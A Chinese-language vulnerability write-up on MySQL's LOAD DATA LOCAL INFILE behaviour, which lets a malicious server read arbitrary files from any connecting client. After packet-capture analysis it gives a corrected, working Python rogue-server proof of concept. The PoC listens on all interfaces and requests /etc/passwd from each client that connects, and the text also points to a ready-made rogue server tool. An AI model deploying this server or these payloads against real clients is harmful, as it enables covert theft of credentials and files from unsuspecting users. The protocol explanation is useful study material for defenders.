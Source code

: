 MySQL LOAD DATA 读取客户端任意文件
==================================

一、漏洞简介
------------

### LOAD DATA INFILE

mysql的LOAD DATA
INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

    load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
    load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符';

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD
DATA LOCAL INFILE。官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId23.png)

二、漏洞影响
------------

三、复现过程
------------

### 分析数据包

测试环境：MacOS 10.14Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId27.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId29.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId31.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @\@version\_comment;

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId33.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId35.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId37.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId39.png)

如果我们在客户端发送查询之后，返回一个Response
TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的
In theory, a patched server could be built that would tell the client
program to transfer a file of the server\'s choosing rather than the
file named by the client in the [LOAD
DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html)
statement.也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer
请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。不过如果想要利用此特性，客户端必须具有CLIENT\_LOCAL\_FILES即(Can use
LOAD DATA
LOCAL)属性。如果没有的话，就要在连接mysql的时候加上\--enable-local-infile。

### 搭建MySQL服务端

主要分为

-   向 MySQL Client 发送Server Greeting
-   等待 Client 端发送一个Query Package
-   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server
Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL\_INFILE\_Request

并且我们需要等待一个来自 Client
的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId42.png)

官方也给了exmaple

    0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd

数据包的内容其实是从\\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从
\\xfb 开始计算），长度后面的三个字节\\x00\\x00\\x01是数据包的序号。

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId43.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

    '\x0a',  # Protocol
    '6.6.6-lightless_Mysql_Server' + '\0',  # Version
    '\x36\x00\x00\x00',  # Thread ID
    'ABCDABCD' + '\0',  # Salt
    '\xff\xf7',  # Capabilities, CLOSE SSL HERE!
    '\x08',  # Collation
    '\x02\x00',  # Server Status
    "\x0f\x80\x15", 
    '\0' * 10,  # Unknown
    'ABCDABCD' + '\0',
    "mysql_native_password" + "\0"

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面
\#3payload写错了，我给改了下。

    #!/usr/bin/python
    #coding: utf8
    import socket

    # linux :
    #filestring = "/etc/passwd"
    # windows:
    #filestring = "C:\Windows\system32\drivers\etc\hosts"
    HOST = "0.0.0.0" # open for eeeeveryone! ^_^
    PORT = 3306
    BUFFER_SIZE = 1024

    #1 Greeting
    greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
    #2 Accept all authentications
    authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

    #3 Payload
    #数据包长度
    payloadlen = "\x0c"
    padding = "\x00\x00"
    payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(1)

    while True:
        conn, addr = s.accept()

        print 'Connection from:', addr
        conn.send(greeting)
        while True:
            data = conn.recv(BUFFER_SIZE)
            print " ".join("%02x" % ord(i) for i in data)
            conn.send(authok)
            data = conn.recv(BUFFER_SIZE)
            conn.send(payload)
            print "[*] Payload send!"
            data = conn.recv(BUFFER_SIZE)
            if not data: break
            print "Data received:", data
            break
        # Don't leave the connection open.
        conn.close()

![](resource/MySQLLOADDATA读取客户端任意文件/media/rId45.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with
MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。
